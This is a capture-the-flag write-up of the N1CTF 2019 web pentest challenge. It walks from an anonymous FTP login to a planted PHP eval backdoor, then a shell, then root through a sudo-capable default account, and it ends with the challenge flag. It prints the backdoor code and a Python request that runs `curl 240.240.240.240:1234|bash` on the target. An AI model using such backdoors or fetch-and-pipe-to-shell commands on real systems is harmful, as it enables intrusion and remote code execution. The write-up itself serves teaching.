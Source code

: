 This is a penetration testing challenge. We also need privilege escalation to read `/root/flag`.

Let us use nmap to perform a port scan first. The server has FTP(21),SSH(22),HTTP(80) opened. The most suspicous is FTP. We quickly login as `anonymous` and run `ls` to list files. The FTP root directory is the same as the web root.

There is a backdoor file named `mmmmm.php`. The parameter `enjoy~` will be evaluated. It's trivial to get RCE:

```php
Welcome to N1ctf2019.lab!

<?=eval($_REQUEST["enjoy~"]);?>
```

```python
import requests
r= requests.get('http://47.52.129.242/mmmmm.php',params={'enjoy~': "system('curl 240.240.240.240:1234|bash');"})
```

We'll probably interact with tty, so run this first: 

```
# https://evertpot.com/189/
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Next, gathering the system info from `/etc/os-release` and `uname --all`. This is a pretty outdated Ubuntu:

```
Linux web.n1ctf2019.lab 4.4.0-93-generic #116~14.04.1-Ubuntu SMP Mon Aug 14 16:07:05 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


NAME="Ubuntu"
VERSION="14.04.5 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.5 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
```

One of the hint is `Hint for Pentest N1ctf2019.lab step1(Web):https://wiki.archlinux.org/index.php/Snap`. Thus we quickly found this privilege escalation exploit [dirty_sock(CVE-2019-7304)](https://github.com/initstring/dirty_sock). However, the `snapd` on the server is `snapd 2.40` which is not vulnerable. We've also tried other privilege escalation exploits but they didn't work.

Then, after reading `/etc/passwd` we found there is a user name `dirty_sock`. Both `su dirty_sock` or `ssh dirty_sock@server`  with password `dirty_sock` leads to successful login. Than we found this user is in sudoers. With the password we can easily get root via `sudo su`. 

`sudo cat /root/flag.txt`: `N1CTF{ImpOrtant_P0int3_4de0e}`
